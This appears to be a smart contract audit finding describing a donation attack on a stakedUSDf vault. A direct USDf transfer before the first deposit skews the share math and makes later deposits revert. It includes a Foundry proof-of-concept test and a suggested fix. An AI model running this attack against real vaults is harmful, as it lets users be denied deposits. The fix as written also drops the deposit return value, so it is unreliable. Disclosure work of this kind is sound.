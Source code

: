 The issue with this check is that a malicious user can directly deposit 1e18 USDf inside the stakedUSDf contract before anyone calls `deposit()`, making `totalAssets() = 1e18` and `totalSupply() = 0`

When the shares are calculated, `assets * totalSupply() + 1 / totalAssets() + 1` , 1e18 \* 1 / (1e18 + 1) = 1, and even if more assets are deposited for the first time, eg 1e20, the shares returned will be less than 1e18, which will invoke the `ZeroAmount` error.

The test below describes the direct deposit attack, append under deposit.t.sol.

```
    function test2_deposit() public {
        // User deposits USDf directly into the stakedUSDf contract, resulting in "ZeroAmount" issue

        uint mintAmount = 1e25;

        vm.startPrank(user1);
        deal(address(usdf), user1, mintAmount);
        usdf.approve(address(stakedUSDf), mintAmount);
        // Directly deposit 1e18 worth of USDf before any `deposit()` is called
        usdf.transfer(address(stakedUSDf), 1e18);
        console2.log("USDF BALANCE of user:", usdf.balanceOf(address(stakedUSDf)));
        console2.log("SUSDF TOTALSUPPLY of user", stakedUSDf.totalSupply());
        // If this number is changed from 1e18 -> 1e25 , all will fail because of "MIN_SHARE_VIOLATION"
        stakedUSDf.deposit(1e18, user1);
        vm.stopPrank();
        console2.log("USDF BALANCE TREASURY:", usdf.balanceOf(address(stakedUSDf.TREASURY())));
        console2.log("USDF BALANCE in contract:", usdf.balanceOf(address(stakedUSDf)));
        console2.log("SUSDF TOTALSUPPLY in contract", stakedUSDf.totalSupply());

        console2.log("USDF BALANCE of user:", usdf.balanceOf(address(user1)));
        console2.log("SUSDF TOTALSUPPLY of user", stakedUSDf.balanceOf(user1));
    }
```

## Recommendations

To ensure this doesn't happen, sweep all the assets inside the contract if `totalSupply() == 0`. Override the deposit function instead of the `_deposit()` since in the deposit function will calculate `previewDeposit()` before calling `_deposit()`, which will return 0 for the above attack.

```
Append in stakedUSDf.sol:

     function deposit(uint256 assets, address receiver) public override returns (uint256) {
        if(IERC20(asset()).balanceOf(address(this)) != 0 && totalSupply() == 0) {
            SafeERC20.safeTransfer(IERC20(asset()), TREASURY,  IERC20(asset()).balanceOf(address(this)));
        }
        super.deposit(assets, receiver);
     }
```
